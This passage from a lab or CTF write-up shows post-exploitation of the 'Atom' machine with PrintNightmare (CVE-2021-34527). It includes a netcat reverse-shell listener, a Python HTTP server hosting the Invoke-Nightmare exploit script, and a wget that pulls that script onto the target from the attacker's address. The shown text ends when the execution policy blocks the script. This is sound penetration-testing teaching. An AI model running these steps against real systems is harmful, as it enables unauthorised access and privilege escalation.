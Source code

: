 ## Beyond Root - PrintNightmare

Atom is vulnerable to CVE-2021-34527, or PrintNightmare. I show various
POCs in [this post](/playing-with-printnightmare.md), but I
can show it quickly here as well.

I'll catch the shell as jason from the Electron exploit, and switch to
PowerShell:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.237] 54371
    Microsoft Windows [Version 10.0.19042.906]
    (c) Microsoft Corporation. All rights reserved.

    C:\WINDOWS\system32>whoami
    atom\jason

    C:\WINDOWS\system32>powershell
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.

    Try the new cross-platform PowerShell https://aka.ms/pscore6

    PS C:\WINDOWS\system32> 



I'll start a webserver in the
[Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675)
directory on my host:



    oxdf@parrot$ ls
    CVE-2021-1675.ps1  nightmare-dll  README.md
    oxdf@parrot$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...



If I try to upload a copy and load it, Windows blocks that:



    PS C:\programdata> wget 10.10.14.7/CVE-2021-1675.ps1 -outfile ./in.ps1
    PS C:\programdata> ls in.ps1


        Directory: C:\programdata


    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----          7/9/2021   9:36 AM         178561 in.ps1
    PS C:\programdata> Import-Module .\in.ps1
    Import-Module : File C:\programdata\in.ps1 cannot be loaded because running scripts is disabled on this system. For 
    more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.
    At line:1 char:1
    + Import-Module .\in.ps1
    + ~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
        + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
